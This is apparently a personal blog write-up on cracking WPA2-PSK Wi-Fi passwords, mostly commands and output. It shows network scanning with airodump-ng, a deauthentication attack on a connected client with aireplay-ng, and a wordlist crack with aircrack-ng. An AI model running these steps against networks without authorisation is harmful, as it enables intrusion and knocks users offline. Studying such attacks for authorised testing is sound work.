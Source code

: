 ```yaml
---
description: >-
  Cracking Hashes
title:  Cracking Hashes      # Add title here
date: 2023-09-27 08:00:00 -0600                           # Change the date to match completion date
categories: [18 Wireless, Cracking Attacks]                     # Change Templates to Writeup
tags: [wireless, cracking hashes]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Methodology

- First, we'll need to capture a handshake. 
- Next, we will make a guess at the passphrase and send that guess into the hash function. 
- We will then compare the output from the hash function to the handshake.

### Capturing the Handshake

We will identify the channel of the target AP and gather its BSSID to limit our capture with airodump-ng.
```bash
sudo airodump-ng wlan0
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
 XX:XX:XX:XX:XX:XX  -67        4        0    0  11  720   WPA2 CCMP   PSK  PUMA5_GOL   
 XX:XX:XX:XX:XX:XX  -69        4        0    0   8  130   WPA2 CCMP   PSK  Total play may
 XX:XX:XX:XX:XX:XX  -71        3        0    0   2  130   OPN              ClubTotalplay_WiFi_2.4G
 XX:XX:XX:XX:XX:XX  -49       28        0    0  11  195   WPA2 CCMP   PSK  TOTALPLAY_220C3C       
 XX:XX:XX:XX:XX:XX  -61       12        0    0  11  130   WPA2 CCMP   PSK  INFINITUM37FA 
 XX:XX:XX:XX:XX:XX  -67       13        0    0  11  130   WPA2 CCMP   PSK  IZZI-F0AC   
 XX:XX:XX:XX:XX:XX  -38       24        3    0  11  195   WPA2 CCMP   PSK  IZZI-F0AC   
 XX:XX:XX:XX:XX:XX  -68        3        0    0   6  130   OPN              MXConectado-E 
 XX:XX:XX:XX:XX:XX  -66        4        0    0   6  540   WPA2 CCMP   PSK  IZZI-D49A   
 XX:XX:XX:XX:XX:XX  -61       13        1    0   8  130   WPA2 CCMP   PSK  INFINITUM1500 
 7C:13:1D:B2:3D:A4  -29       42       19    0   5  130   WPA2 CCMP   PSK  Not_Of_Your_Buzzinez <----
BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX  -67    0 - 1e     0        1
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX  -69    1e- 1e     0        3
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX  -69    0 - 1e     0        2
 7C:13:1D:B2:3D:A4  1E:F4:C6:7B:66:C1  -32    0 - 1e     0        1 <----
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX  -71    0 - 1e   502        6
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX   -1    1e- 0      0       72                   
```
Our target is the 'Not_Of_Your_Buzzinez' AP, which operates on channel 5. Its BSSID is 7C:13:1D:B2:3D:A4 and it has one client with a MAC address of 00:18:4D:1D:A8:1F. The AUTH column shows the AP has an authentication type of PSK. This is a good sign. aircrack-ng does not work when the authentication is Enterprise (MGT), as it requires a different set of tools. Opportunistic Wireless Encryption cannot be cracked yet.

Then we proceed to capture the packet as follows:
```bash
sudo airodump-ng -c 5 -w wpa --essid 'Not_Of_Your_Buzzinez' --bssid 7C:13:1D:B2:3D:A4 wlan0
```

With the airodump-ng running we then proceed to deauthenticate the user from the AP with aireplay-ng. We'll use the -0 1 option to deauthenticate once, and -a to target our BSSID. We'll use -c to identify the associated client, and finally specify wlan0mon for our listening interface.
```bash
sudo aireplay-ng -0 1 -a 7C:13:1D:B2:3D:A4 -c 1E:F4:C6:7B:66:C1 wlan0
13:30:30  Waiting for beacon frame (BSSID: 7C:13:1D:B2:3D:A4) on channel 1
13:30:30  Sending 64 directed DeAuth (code 7). STMAC: [1E:F4:C6:7B:66:C1] [ 0| 0 ACKs]

```
Aireplay-ng checks that the BSSID exists before sending the deauthentication packets. Once the client reconnects with the target AP, airodump-ng will be able to capture a handshake.
```bash
CH  5 ][ Elapsed: 52 s ][ 2020-02-29 13:31 ][ WPA handshake: 1E:F4:C6:7B:66:C1
```

### Cracking the Hash

Now that we have captured a handshake, cracking it is relatively easy. We run aircrack-ng against our recently created capture file, wpa-01.cap. We'll use a list of commonly used passwords, also known as a wordlist, located at /usr/share/john/password.lst. We'll use -w to specify the path to our wordlist. Next, we'll use -e to indicate which ESSID to target, and then -b to specify the BSSID.

```bash
aircrack-ng -w /usr/share/john/password.lst -e 'Not_Of_Your_Buzzinez' -b 7C:13:1D:B2:3D:A4 wpa-01.cap
                               Aircrack-ng 1.7 

      [00:00:00] 2/5 keys tested (214.45 k/s) 

      Time left: 0 seconds                                      40.00%

                      KEY FOUND! [ Th1s1s0bvi0uslyN0tTh3P4ssw0rd ]


      Master Key     : XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 
                       XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 

      Transient Key  : XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 
                       XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 
                       XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 
                       XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 

      EAPOL HMAC     : XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX
```